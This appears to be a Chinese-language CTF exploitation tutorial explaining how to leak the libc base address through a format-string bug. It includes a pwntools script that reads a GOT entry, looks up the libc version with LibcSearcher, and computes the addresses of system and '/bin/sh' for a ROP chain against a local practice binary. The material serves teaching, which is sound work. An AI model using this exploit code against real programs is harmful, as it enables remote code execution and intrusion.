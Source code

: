 ## 拿libc基地址

### 方法一：格式化字符串

1. 格式化字符串，首先确定输入的 **AAAA** 在栈上的位置（x）。
2. 使用 **elf.got[fun]** 获得got地址。
3. 利用格式化字符串，构造payload泄漏got地址处的值，recv接受到的字符串中，[4:8]即为fun函数的地址fun_addr。
   * payload  = p32(got) + b'%x$s'
   * fun_address = u32(p.recvuntil(b'\xf7')[4:8])
4. 利用 **LibcSearcher** 选择libc的版本。
5. 最后计算libc的基地址： **libcbase = fun_addr - libc.dump("fun")**
6. 最后根据基地址libcbase即可计算system函数的绝对地址：
   * sys_addr = libcbase + libc.dump("system")
   * sh_addr  = libcbase + libc.dump("str_bin_sh")
7. 最后根据获得到的地址即可构造ROP链。

##### 实例：

``````python
from pwn import *
from LibcSearcher import *
p=process("./test3")
elf=p.elf

fun_name="read"

#get the fun'got_address
fun_got=elf.got[fun_name]  #0x804c004
fun_plt=elf.plt[fun_name]  #0x8049040
print(hex(fun_got),hex(fun_plt))

p.recvuntil(b"hello\n")

#yichu
payload = p32(0x804c004) + b'%10$s'
p.sendline(payload)


fun_address = u32(p.recvuntil(b'\xf7')[4:8])
print("fun_address:",hex(fun_address))

#base_address
libc = LibcSearcher(fun_name,fun_address)
libc_base = fun_address - libc.dump(fun_name)
print("libc_base :",hex(libc_base))

#get system address and shell address
sys_address = libc_base + libc.dump('system')
sh_address  = libc_base + libc.dump('str_bin_sh')
print("system address:",hex(sys_address))
print("bin_sh address:",hex(sh_address))
``````
